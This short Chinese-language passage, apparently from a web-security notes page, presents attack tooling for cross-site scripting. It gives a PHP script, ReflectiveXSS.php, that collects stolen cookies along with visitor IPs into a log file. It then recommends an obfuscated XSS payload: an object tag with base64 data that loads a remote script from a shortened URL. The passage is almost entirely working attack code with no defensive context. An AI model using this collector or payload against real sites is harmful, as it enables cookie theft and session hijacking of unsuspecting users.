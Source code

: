 ReflectiveXSS.php的代码如下： 

```
<?php $cookie = $_GET['cookie']; 
$ip = getenv ('REMOTE_ADDR'); 
$time = date('Y-m-d g:i:s'); 
$fp = fopen("cookie.txt","a"); 
fwrite($fp,"IP: ".$ip."Date: ".$time." Cookie:".$cookie."\n"); 
fclose($fp); ?> 
```

最后给出一个比较好的xss payload

`<object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUkd1V0REUz48L3NjcmlwdD4="></object>`